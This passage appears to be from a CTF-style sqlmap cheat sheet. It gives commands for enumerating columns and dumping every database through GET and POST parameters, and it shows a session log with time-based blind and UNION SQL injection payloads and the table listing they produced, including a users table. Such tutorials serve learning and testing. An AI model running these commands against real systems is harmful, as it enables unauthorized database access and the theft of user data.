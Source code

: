 **Using GET based Method**

`sqlmap -u https://testsite.com/page.php?id=7 -D blood -T blood_db --columns`

**`sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> -T <table_name> --columns`  
**  
  
**Using POST based Method**

`sqlmap -r req.txt -D blood -T blood_db --columns`

**`sqlmap -r req.txt -D <database_name> -T <table_name> --columns`  
**  

Getting Tables

```shell-session
nare@nare$ sqlmap -r req.txt -D blood -T blood_db --columns
[19:35:57] [INFO] parsing HTTP request from 'req.txt'
[19:35:57] [INFO] resuming back-end DBMS 'mysql'
[19:35:57] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: blood_group (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: blood_group=B+' AND (SELECT 3897 FROM (SELECT(SLEEP(5)))Zgvj) AND 'gXEj'='gXEj

    Type: UNION query
    Title: Generic UNION query (NULL) - 8 columns
    Payload: blood_group=B+' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x716a767a71,0x58784e494a4c43546361475a45546c676e736178584f517a457070784c616b4849414c69594c6371,0x71716a7a71)-- -
---
[19:35:58] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.10.3
back-end DBMS: MySQL >= 5.0.12
[19:35:58] [INFO] fetching tables for database: 'blood'
[19:35:58] [WARNING] reflective value(s) found and filtering out
Database: blood
[3 tables]
+----------+
| blood_db |
| flag     |
| users    |
+----------+
```

  
Or we can simply dump all the available databases and tables using the following commands.  

  
**Using GET based Method**

`sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> --dump-all`  
  